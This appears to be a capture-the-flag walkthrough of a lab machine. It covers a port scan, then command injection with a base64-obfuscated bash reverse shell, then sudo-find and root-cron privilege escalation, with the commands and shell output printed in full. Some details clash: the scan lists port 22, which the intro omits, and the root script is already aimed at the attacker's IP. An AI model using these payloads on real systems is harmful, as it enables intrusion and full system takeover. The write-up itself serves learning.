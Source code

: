 First, we perform a scan and discover that ports 80 and 9999 are open.
There is a web application running on port 9999. By analyzing the application, we identify a command injection vulnerability. Using this vulnerability, we are able to gain access to the system.

The initial scan is done using RustScan:

```
/snap/bin/rustscan -a 192.168.1.11 -r 1-65535 --ulimit 5000
```

RustScan Output:

```
Open 192.168.1.11:22
Open 192.168.1.11:80
Open 192.168.1.11:9999
[~] Starting Script(s)
dnet: Failed to open device wlan0
QUITTING!
[!] Error Exit code = 1# WriteUp
```

After identifying the command injection vulnerability in the web application running on port 9999, we exploit it to gain remote access to the system.

We inject the following payload, which establishes a reverse shell connection to our attacker machine:
```
1.1.1.1; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuOS80NDQ0IDA+JjEn | base64 -d | bash
```

This payload uses base64 to encode a simple Bash reverse shell and avoids detection by some filters. Once decoded and executed, it connects back to our listener on port 4444.

On our attacker machine, we start a listener using netcat:

```
nc -lvnp 4444
```

We receive a reverse shell connection:

```
listening on [any] 4444 ...
connect to [192.168.1.9] from (UNKNOWN) [192.168.1.11] 57322
bash: cannot set terminal process group (825): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pinguser:/var/www/blog$
```

We now have a shell as the www-data user on the target machine and are inside the /var/www/blog directory.

Privilege Escalation

After gaining a reverse shell as the www-data user, we enumerate user privileges by running:

```
sudo -l
```

Output:

```
Matching Defaults entries for www-data on pinguser:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on pinguser:
    (pinguser) NOPASSWD: /usr/bin/find
```

This indicates that the www-data user can run /usr/bin/find as the pinguser user without providing a password.

We exploit this configuration using the following command to escalate privileges to the pinguser user:

```
sudo -u pinguser /usr/bin/find . -exec /bin/sh -p \; -quit
```

We then upgrade to a fully interactive shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we have a shell as the pinguser user:

```
pinguser@pinguser:/var/www/blog$
```

Root Privilege Escalation

After escalating from www-data to pinguser, we enumerate further by checking the contents of the system-wide crontab file:

```
cat /etc/crontab
```

We find the following scheduled cron job:

```
* * * * * root bash /opt/rootscript.sh
```

This cron job runs the script /opt/rootscript.sh every minute with root privileges.

We navigate to /opt and examine the contents of the script:

```
cd /opt
ls
cat rootscript.sh
```

Script contents:

```
bash -i >& /dev/tcp/192.168.1.9/5555 0>&1
```

This script is already set up to open a reverse shell to our machine (192.168.1.9) on port 5555. To receive the root shell, we simply start a listener on our machine:

```
nc -nvlp 5555
```

After about a minute, we receive the reverse shell as root:

```
listening on [any] 5555 ...
connect to [192.168.1.9] from (UNKNOWN) [192.168.1.11] 38444
bash: cannot set terminal process group (1423): Inappropriate ioctl for device
bash: no job control in this shell
root@pinguser:~#
```

We now have full root access to the target system.
